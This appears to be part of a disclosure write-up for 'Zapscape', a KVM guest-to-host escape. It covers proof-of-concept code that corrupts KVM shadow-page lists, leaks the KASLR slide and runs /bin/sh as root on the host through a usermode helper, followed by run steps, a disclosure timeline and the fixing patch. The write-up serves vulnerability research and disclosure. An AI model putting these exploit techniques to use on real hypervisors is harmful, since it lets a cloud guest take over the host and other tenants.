static inline void __list_del(struct list_head *prev,
			      struct list_head *next)
{
	next->prev = prev;			// <=[45]
	WRITE_ONCE(prev->next, next);		// <=[46]
}
```

If addresses are placed in the `next` and `prev` of the manipulated `C.possible_nx_huge_page_link`, `[45]` writes the `prev` value to offset 8 of the address that `next` points at, and `[46]` writes the `next` value to the address that `prev` points at. The values and the destinations of the two writes are determined together by `next` and `prev`, and the PoC uses this relationship to fill both pointers of the list links it needs in order.

Before each reuse step, the guest code builds the actual fields of C in the following form.

```c
static void emit32_arm_fake_c(uint8_t **pp, uint32_t a_lo, uint32_t a_hi,
			      int32_t a_delta, uint32_t b_lo, uint32_t b_hi,
			      int32_t b_delta, uint8_t pass)
{
	uint8_t *p = *pp;

	[...]
	emit32_store_imm(&p, TARGET_C_BASE + 36u,
			 TARGET_ROLE_INVALID_DIRECT_L1);
	[...]
	emit32_store_ptr_delta(&p, TARGET_C_BASE + 48u,
			       SAFE_SPT_HVA_LO, SAFE_SPT_HVA_HI, 0);
	[...]
	emit32_store_imm(&p, TARGET_C_BASE + 64u, 0);
	[...]
	emit32_store_ptr_delta(&p, TARGET_C_BASE + 80u,
			       G1_MARKER + 64u, G1_MARKER + 68u, -92);
	[...]
	emit32_store_ptr_delta(&p, TARGET_C_BASE + 152u,
			       a_lo, a_hi, a_delta);	// <=[47]
	emit32_store_ptr_delta(&p, TARGET_C_BASE + 160u,
			       b_lo, b_hi, b_delta);	// <=[48]
	[...]
}
```

`[47]` and `[48]` write these two addresses to C+152 and C+160. C is given an invalid direct level 1 role, and the kernel address obtained by rounding the new shadow page header address read at C+8 down to a 4 KiB boundary is used as `spt`. `root_count` is initialized to 0, but `parent_ptes` points at C+60. When KVM clears this parent SPTE with `SHADOW_NONPRESENT_VALUE=BIT_ULL(63)`, the high dword that overlaps C+64 becomes `root_count=0x80000000`, so the root handling path is taken. Once the AP has built C's fields, the BSP runs VMRUN; the quota walker inside that allocating fault prepares C, and the pointer writes of `[45]` and `[46]` run there. The BSP then signals that VMRUN has ended, and the AP checks the result and restores C's active link and parent for the next pass.

With the active list head obtained from the first cross-cache, the base address of `struct kvm` and the `pm_notifier` location that will be interpreted as an MMU header are computed.

```c
[...]
#define KVM_ACTIVE_HEAD_OFF 0x12b0u
#define KVM_PM_NOTIFIER_OFF 0x17e8u
#define KVM_NMAX_OFF 0x1290u
#define KVM_NMAX_PREV_OFF (KVM_NMAX_OFF - 8u)
[...]
#define KVM_F_FROM_H (KVM_PM_NOTIFIER_OFF - KVM_ACTIVE_HEAD_OFF)

[...]
emit32_store_ptr_delta(&p, KS_K_LO, G1_MARKER + 40u,
		       G1_MARKER + 44u,
		       -(int32_t)KVM_ACTIVE_HEAD_OFF);
emit32_store_ptr_delta(&p, KS_F_LO, G1_MARKER + 40u,
		       G1_MARKER + 44u,
		       (int32_t)KVM_F_FROM_H);		// <=[49]
[...]
```

`[49]` subtracts `0x12b0` from the active list head address inside the guest to obtain the `struct kvm` base, and adds `0x17e8` to it to compute the address at which the actual `pm_notifier` bytes begin.

### 4.2 Confirming N and building the MMU hash chain

The N confirmation procedure of the previous section aligns the execution order of the two vCPUs so that `root_count` is changed to 1 only after the quota walker has caught the C rebuilt in the guest page. It reads the pointer to C itself that KVM created with `INIT_LIST_HEAD(C+152)` to obtain C's kernel virtual address, checks that the position where the initial value changed to the expected value of the KVM write points at the same N, and then restores C.

The first three of the reuse steps record three pointer values so that N and the `pm_notifier` region to be interpreted as an MMU header point at each other.

```c
[...]
emit32_arm_fake_c(&p, SAFE_SPT_HVA_LO, SAFE_SPT_HVA_HI, 0,
		  KS_F_LO, KS_F_HI, 0x30, 2);
[...]
emit32_oracle_marker(&p, 0x8u, true, '2');

[...]
emit32_arm_fake_c(&p, SAFE_SPT_HVA_LO, SAFE_SPT_HVA_HI, 0x100,
		  KS_F_LO, KS_F_HI, 0x40, 3);
[...]
emit32_oracle_marker(&p, 0x108u, false, '3');

[...]
emit32_arm_fake_c(&p, SAFE_SPT_HVA_LO, SAFE_SPT_HVA_HI, 0x200,
		  KS_F_LO, KS_F_HI, 0, 4);
[...]
emit32_oracle_marker(&p, 0x208u, false, '4');	// <=[50]
[...]
```

The three steps at `[50]` write the base address of the `pm_notifier` region plus 0x30 to N+8, the base address plus 0x40 to N+0x108, and the base address itself to N+0x208. After each step the guest sweeps the whole of Stage 2 and checks that the expected 64-bit value appears exactly once at the given offset. In the first step it saves that page base as the N GPA, in the next two steps it compares that it is the same N, and then it clears the confirmed value to 0.

The three steps that follow link the KVM hash bucket as `existing node -> C -> the pm_notifier region interpreted as an MMU header -> the auxiliary MMU header overlaid at C+112 -> NULL`, and make the `pprev` of each `hash_link` hold the address of the preceding link field that points at it.

```c
[...]
emit32_store_ptr_delta(&p, TARGET_C_BASE + 16u,
		       G1_MARKER + 40u, G1_MARKER + 44u,
		       KVM_PSEUDO_FROM_H);
emit32_arm_fake_c(&p, G1_MARKER + 64u, G1_MARKER + 68u, -136,
		  G1_MARKER + 56u, G1_MARKER + 60u, 0x10, 5);
[...]
emit32_arm_fake_c(&p, KS_F_LO, KS_F_HI, 0x10,
		  G1_MARKER + 64u, G1_MARKER + 68u, -136, 6);
[...]
emit32_store_imm(&p, TARGET_C_BASE + 128u, 0);
emit32_store_imm(&p, TARGET_C_BASE + 132u, 0);
[...]
emit32_store_imm(&p, TARGET_C_BASE + 144u, 0);
emit32_store_imm(&p, TARGET_C_BASE + 148u, TARGET_ROLE_INVALID);
emit32_arm_fake_c(&p, G1_MARKER + 64u, G1_MARKER + 68u, -24,
		  KS_F_LO, KS_F_HI, 0x10, 7);		// <=[51]
[...]
```

The first step of `[51]` changes the `hash.next` of the existing header to C and matches C's `hash.pprev` to that field. The second step makes C's `hash.next` the `pm_notifier` region interpreted as an MMU header, and makes that region's `hash.pprev` C's next field. The third step builds the `hash_link` and the role of the auxiliary MMU header at C+112 and links the `hash.next` of the `pm_notifier` region to that `hash_link`. The PoC checks in the guest the bidirectional hash link between C and the `pm_notifier` region after the second step, and the next, `pprev`, and invalid role of the auxiliary MMU header after the third step.

The last step makes quota reclaim stop happening.

```c
[...]
emit32_arm_fake_c(&p, KS_K_LO, KS_K_HI, KVM_NMAX_PREV_OFF,
		  SAFE_SPT_HVA_LO, SAFE_SPT_HVA_HI, 0x300, 8);
[...]
emit32_oracle_marker(&p, 0x300u, false, '8');	// <=[52]
[...]
```

`[52]` puts `struct kvm+0x1288` in `next` and N+0x300 in `prev`. `[45]` writes N+0x300, whose upper bits are in x86-64 kernel pointer form, to `struct kvm+0x1290`, that is, `n_max_mmu_pages`, and `[46]` records `struct kvm+0x1288` at N+0x300. The guest checks these values and then clears only N+0x300 to 0. The corrupted `n_max_mmu_pages` remains a very large value, which prevents further quota reclaim when later shadow pages are created, and it is not restored even after the PoC ends.

### 4.3 Leaking the KASLR slide through pm_notifier

After fixing the quota, the guest prepares to create a real non-leaf shadow page and its direct child. It first turns paging off and uses C once more just before creating the non-leaf shadow page, making C look like a valid direct level 1 root while its hash next points at the auxiliary MMU header overlaid at C+112 earlier.

```c
static void emit32_arm_pre_e_c(uint8_t **pp)
{
	uint8_t *p = *pp;

	emit32_store_imm(&p, TARGET_C_BASE + 32u, 0x01000101u);
	[...]
	emit32_store_imm(&p, TARGET_C_BASE + 64u, 1u);
	[...]
	emit32_store_imm(&p, TARGET_C_BASE + 148u, TARGET_ROLE_INVALID);
	emit32_store_ptr_delta(&p, TARGET_C_BASE + 152u,
			       G1_MARKER + 64u, G1_MARKER + 68u, -24);
	emit32_store_ptr_delta(&p, TARGET_C_BASE + 160u,
			       G1_MARKER + 64u, G1_MARKER + 68u, -136);
	[...]
	emit32_store_imm(&p, TARGET_C_BASE + 36u, 0x81u); // <=[53]
	[...]
}
```

`[53]` finally changes C's role from the invalid `0x881` to the valid direct L1 `0x81`. The preceding writes match `spt`, `root_count`, and the parent and child state to make C look like a direct shadow root that is in use. When the hash lookup that searches for a new non-leaf shadow page prepares C, C's next ends at NULL by way of the auxiliary MMU header at C+112, so the `pm_notifier` region is not processed at that time.

After that the non-leaf shadow page and the direct child are actually created. The AP writes the same value `0xa7` three times to offset `0x28`, the PDE5 of GPA 0.

```c
[...]
emit32_store_imm(&p, 0x28u, 0xa7u);
[...]
emit32_store8_imm(&p, KS_TRACK_REQ, 1);
emit32_wait_byte(&p, KS_TRACK_ACK, 1);

[...]
emit32_store_imm(&p, 0x28u, 0xa7u);
[...]
emit32_store8_imm(&p, KS_TRACK_REQ, 2);
emit32_wait_byte(&p, KS_TRACK_ACK, 2);

[...]
emit32_store_imm(&p, 0x28u, 0xa7u);		// <=[54]
emit32_finish_p_leak(&p);
[...]
```

After the first two writes of `[54]`, the BSP refaults `spt[5]` of the real non-leaf shadow page to reset that page's `write_flooding_count`. The count interpreted in the `pm_notifier` region still increases as 1, 2, 3, and on the third write `[25]` prepares this region.

At this point the actual `pm_notifier` bytes at `struct kvm+0x17e8` are interpreted as a `struct kvm_mmu_page`. Following the hash and list fields built earlier, a list write during the prepare records the address of `rcu_pm_notify_nb.10`, the next node of the PM notifier chain, at N+0x208. This is the address of the notifier block object, not of the notifier callback function.

The following code verifies the leaked address and computes the KASLR slide.

```c
static void emit32_finish_p_leak(uint8_t **pp)
{
	uint8_t *p = *pp, *bad[5], *skip, *fail, *done;

	[...]
	e32(&p, 0x208u);
	[...]
	e32(&p, 0x20cu);
	[...]
	e32(&p, 0xffffffffu);
	bad[0] = emit_rel32_jcc(&p, 0x85);	// <=[55]
	[...]
	e32(&p, (uint32_t)(RCU_PM_NB_LINK & 0xfffull));
	bad[1] = emit_rel32_jcc(&p, 0x85);	// <=[56]
	[...]
	e32(&p, (uint32_t)RCU_PM_NB_LINK);
	[...]
	e32(&p, (uint32_t)(RCU_PM_NB_LINK >> 32));
	[...]
	e32(&p, KASLR_IMAGE_MAX);
	bad[3] = emit_rel32_jcc(&p, 0x83);
	[...]
	e32(&p, 0x1fffffu);
	bad[4] = emit_rel32_jcc(&p, 0x85);	// <=[57]

	emit32_store_eax(&p, KS_SLIDE);
	emit32_store_slid_symbol(&p, KS_LOG_LO, LOG_WAIT_HEAD);
	emit32_store_slid_symbol(&p, KS_SRCU_LO, SRCU_DELAY_TIMER);
	emit32_store_slid_symbol(&p, KS_UMH_LO,
				 CALL_USERMODEHELPER_EXEC_WORK);
	emit32_store_slid_symbol(&p, KS_ZERO_LO, EMPTY_ZERO_PAGE);
	emit32_store_slid_symbol(&p, KS_WORK_NOOP_LO, WORKQUEUE_NOOP);
	emit32_store_slid_symbol(&p, KS_EP_AUTOREMOVE_LO,
				 EP_AUTOREMOVE_WAKE);
	emit32_store_slid_symbol(&p, KS_INIT_TASK_LO,
				 INIT_TASK_SYMBOL);		// <=[58]
	[...]
}
```

`[55]` and `[56]` check that the high dword of the notifier block address read at N+0x208 is `0xffffffff` and that its low 12 bits are `0xc40`, those of the reference `rcu_pm_notify_nb.10` address, and then immediately clear N+0x208 and N+0x20c, where the value was stored, to 0.

`[57]` subtracts `0xffffffff82f54c40` from the leaked notifier block address to compute the slide, and then verifies that the high dword is 0, that the slide is smaller than `0x40000000`, and that it is aligned to a 2 MiB boundary. If even one of these does not hold, it stops execution immediately without building the callback chain. On successful verification, `[58]` adds this slide to the link time addresses below.

This slide gives the following addresses.

* the list head of `log_wait`
* `srcu_delay_timer`
* `call_usermodehelper_exec_work`
* `empty_zero_page`
* `blk_timeout_work`
* `ep_autoremove_wake_function`
* `init_task`

## 5. The wait entry built in the N page and the usermode helper

In the N page, a `wait_queue_entry` and a `subprocess_info` are built at the following locations.

```text
N + 0x000  wait_queue_entry
N + 0x028  subprocess_info
N + 0x100  "/bin/sh"
N + 0x110  "sh"
N + 0x120  "-c"
N + 0x140  "umask 022; : > /Zapscape"
N + 0x200  argv
N + 0x240  envp
N + 0x280  completion
```

The callback of the wait entry built in N is `srcu_delay_timer`, and the layout places the `work_struct` of the `subprocess_info` at the `srcu_data.work` location that this function computes with `container_of()`. The work function is `call_usermodehelper_exec_work`, the path is `/bin/sh`, and the wait mode is `UMH_WAIT_PROC`.

The last C reuse step links the list node of the wait entry into the global `log_wait`. The guest executes MONITOR and then sends an x2APIC LOWEST ICR. When the target kernel printk wake that arises in this process walks `log_wait`, the callback built in N runs.

The synchronous wake flow is as follows.

```text
wake_up_klogd_work_func()
  wake_up_interruptible()
    __wake_up()
      __wake_up_common_lock()
        __wake_up_common()
          srcu_delay_timer()
            queue_work_on()
              __queue_work()
```

Here the work of the `subprocess_info` built in N enters the workqueue and the synchronous call ends. A kworker then handles this work in a separate execution context.

```text
process_one_work()
  call_usermodehelper_exec_work()
    call_usermodehelper_exec_sync()
      user_mode_thread()
```

The path of the new usermode thread is as follows.

```text
call_usermodehelper_exec_async()
  prepare_kernel_cred()
  commit_creds()
  wait_for_initramfs()
  kernel_execve()
```

`call_usermodehelper_exec_async()` commits the kernel credential and then runs `/bin/sh -c "umask 022; : > /Zapscape"`. The file that is created is therefore created with uid 0 and mode 0644 in the rootfs of the target host Linux that runs the vulnerable KVM.

## 6. Running the demo and checking the result

First, boot the Linux 7.1.3 target with the following command. Test on QEMU v9.2.0 or later.

```sh
./qemu.sh bzImage initramfs.cpio.gz
```

Run the PoC from the booted uid 65534 shell.

```sh
zapscape(uid=65534)$ ./poc
```

When every step of the PoC completes normally, `/Zapscape` is created on the host.

```sh
zapscape(uid=65534)$ ls -la /Zapscape
-rw-r--r--    1 root     root             0 ... /Zapscape
```

## 7. Scope of the demonstration

The public demo finishes the VM construction before the first `KVM_RUN`. After that, the step transitions from the firing of the vulnerability to the creation of `/Zapscape` are made by guest instructions and the target kernel execution they cause, while the VMM's vCPU threads handle `KVM_RUN` re-entry and the final termination I/O.

Of course, in a real cloud environment the L1 actions that the current PoC performs must be moved into a guest kernel module, and the exploit must be ported to match the host kernel's kconfig and the actual memory backend of the provider VMM.

In the current demo config, as in Ubuntu's kconfig, `CONFIG_DEBUG_LIST`, `CONFIG_LIST_HARDENED`, and `CONFIG_BUG_ON_DATA_CORRUPTION` are all disabled. If list hardening is turned on, the post-free list write of the current PoC is blocked and a DoS is triggered instead.

# Disclosure Timeline

- 2026-07-11: Submitted detailed information about the Zapscape vulnerability and a PoC to security@kernel.org.
- 2026-07-13: Discussed how to handle the patch with the KVM maintainers, and Sean wrote a patch for the vulnerability.
- 2026-07-21: Paolo posted the patch to [lore](https://lore.kernel.org/all/20260721102829.313226-1-pbonzini@redhat.com/).
- 2026-07-21: The [2abd5287f083 patch](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=2abd5287f083) was merged into mainline.
- 2026-08-01: Submitted information about the vulnerability and the exploit to the linux-distros mailing list. The embargo was set to 5 days.
- 2026-08-04: Zapscape was assigned CVE-2026-64561.
- 2026-08-06: After the embargo ended, posted information about Zapscape to the oss-security mailing list, and this document was published.

# Patch

Zapscape was fixed in `2abd5287f083`. The patch moves the stale root check after `make_mmu_pages_available()`. If quota reclaim makes the current root invalid, the fault is restarted with `RET_PF_RETRY` instead of continuing to map or fetch.

```diff
diff --git a/arch/x86/kvm/mmu/mmu.c b/arch/x86/kvm/mmu/mmu.c
index 234d0a95abf534..41f92ed1ca377f 100644
--- a/arch/x86/kvm/mmu/mmu.c
+++ b/arch/x86/kvm/mmu/mmu.c
@@ -4852,16 +4852,17 @@ static int direct_page_fault(struct kvm_vcpu *vcpu, struct kvm_page_fault *fault
 	if (r != RET_PF_CONTINUE)
 		return r;
 
-	r = RET_PF_RETRY;
 	write_lock(&vcpu->kvm->mmu_lock);
 
-	if (is_page_fault_stale(vcpu, fault))
-		goto out_unlock;
-
 	r = make_mmu_pages_available(vcpu);
 	if (r)
 		goto out_unlock;
 
+	if (is_page_fault_stale(vcpu, fault)) {
+		r = RET_PF_RETRY;
+		goto out_unlock;
+	}
+
 	r = direct_map(vcpu, fault);
 
 out_unlock:
diff --git a/arch/x86/kvm/mmu/paging_tmpl.h b/arch/x86/kvm/mmu/paging_tmpl.h
index df3ae0c7ec2c30..1ba840a73b7ac9 100644
--- a/arch/x86/kvm/mmu/paging_tmpl.h
+++ b/arch/x86/kvm/mmu/paging_tmpl.h
@@ -864,15 +864,17 @@ static int FNAME(page_fault)(struct kvm_vcpu *vcpu, struct kvm_page_fault *fault
 	}
 #endif
 
-	r = RET_PF_RETRY;
 	write_lock(&vcpu->kvm->mmu_lock);
 
-	if (is_page_fault_stale(vcpu, fault))
-		goto out_unlock;
-
 	r = make_mmu_pages_available(vcpu);
 	if (r)
 		goto out_unlock;
+
+	if (is_page_fault_stale(vcpu, fault)) {
+		r = RET_PF_RETRY;
+		goto out_unlock;
+	}
+
 	r = FNAME(fetch)(vcpu, fault, &walker);
 
 out_unlock:
```

This change fixes both the direct page fault and the template based shadow page fault together. Therefore, when a root becomes invalid during reclaim, a child that inherited the invalid parent role does not enter the active list, and the double membership, the dangling active link, and the post-free write path that Zapscape uses do not begin.
